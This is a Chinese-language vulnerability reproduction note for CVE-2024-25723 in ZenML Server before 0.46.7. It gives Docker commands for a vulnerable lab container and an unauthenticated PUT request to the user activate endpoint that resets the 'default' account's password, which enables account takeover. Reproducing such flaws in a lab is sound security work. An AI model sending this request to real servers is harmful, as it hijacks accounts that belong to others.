




# ZenML Server未授权修改用户密码漏洞

​	**ZenML**是一个可扩展的开源 MLOps 框架，用于创建可移植的、生产就绪的机器学习管道。通过将基础设施与代码解耦，ZenML 使整个组织的开发人员能够在开发到生产时更有效地协作。

​	在 0.46.7 之前的 ZenML 版本中发现了一个严重安全漏洞，此漏洞可能允许未经授权的用户通过用户激活功能获取 ZenML 帐户的所有权。问题在于`/api/v1/users/{user_name_or_id}/activate`REST API 端点。现有的用户名以及请求正文中提供的新密码可能会被滥用以获得未经授权的访问。

**受影响的版本：**

0.46.7 以下的所有 ZenML 版本都容易受到攻击，但以下补丁版本除外：（0.44.4、0.43.1、0.42.2）。

参考链接

- https://www.zenml.io/blog/critical-security-update-for-zenml-users
- https://nvd.nist.gov/vuln/detail/CVE-2024-25723


## 漏洞环境

Docker拉取镜像

```
docker pull zenmldocker/zenml-server:0.46.0
```

启动容器

```
docker run -it -d -p 8080:8080 --name zenml zenmldocker/zenml-server:0.46.0
```




## 漏洞复现

发送如下请求

```
PUT /api/v1/users/default/activate HTTP/1.1
Host: 192.168.160.128:8080
Content-Type: application/json

{"password": "shelter@123456"}
```



使用用户名default密码shelter@123456进行登录



